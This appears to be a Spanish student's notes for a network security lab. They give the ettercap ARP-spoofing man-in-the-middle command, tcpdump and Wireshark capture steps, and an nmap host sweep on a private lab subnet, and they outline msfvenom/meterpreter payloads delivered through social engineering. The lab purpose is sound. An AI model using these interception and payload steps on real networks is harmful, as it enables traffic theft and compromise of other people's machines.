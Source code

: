 # A)
Install ettercap
```bash
apt install ettercap-text-only
```
Funcionamiento:
```bash
ettercap [options][target1][target2]

ejemplo:
ettercap /10.11.48.56//
```
Con ettercap realizaremos ARP spoofing
# B) x
Captura de trafico, usando ettercap + wireshark para snifear y visualizar data (pdf, gif, ...)
## Solución
### Spoofing
Comando básico para realizar spoofing:
```bash
ettercap -T -q -i ens33 -M arp:remote //10.11.48.142 //10.11.48.1
```
- -T, text mode
- -q, filtra lo que se muestra por pantalla.
- -i, establece la interfaz a usar.
- -M, man in de midel.
	- arp:remote, uso del MITM arp en remoto.
		- target
		- gateway

Guardar los paquetes recibidos:
```shell
//captura
tcpdump -i ens33 -s 65535 -w tcp_bisbi.pcap
//envio
scp lsi@10.11.48.143:/home/lsi/tcp_bisbi.pcap .
```
# C)
Para obtener la mac del segmento usamos:
```
nmap -sP 10.11.48.0/23
```
- -sP, host discovery sobre un segmento mediante syng, ack y cmp 

respuestas con formato:
```
Nmap scan report for 10.11.49.17
Host is up (0.00040s latency).
MAC Address: 00:50:56:97:F6:06 (VMware)
```
# D) x
Para obtener las ipv6 usamos:
```
ping6 -c 2 -I ens33 2002:a0b::1
ip -6 neigh
```
// todo lo de ipv6 sin fe....
# E) x
Capturar todo el trafico de alguna de nuestras interfaces, ettercap y tcpdump

Para obtener nuestro trafico tcp:
```shell
//tomamos el trafico tcp
tcpdump -i ens33 -s 65535 -w my.pcap
//recuperamos para usar wireshark
scp lsi@10.11.48.143:/home/lsi/my.pcap .
```
Usamos wireshark para analizar.
# F) x
Spoofing de web viendo simultáneamente la web (navegador de texto, xdg-open), se debe configurar el navegador en etter.conf.
//evaluación con la navegación en la victima y actualización en el atacante sin interacción
# G) x
Generación de peiloads y envió al atacado, la segunda parte es ingeniería social para que parezca natural.
Para creación:
- metasploit + msfvenom (neterpreter/shell/bash)
Social:
- filto ettercap
- ingeniería social

# H)
MITM ipv6 ettercap + ndp
# I)
arpon vs ettercap + arp poisoning
# J)
- host dicovery
- port scaning
- os fingerprinting

# K)
conexiones y ancho de banda consumido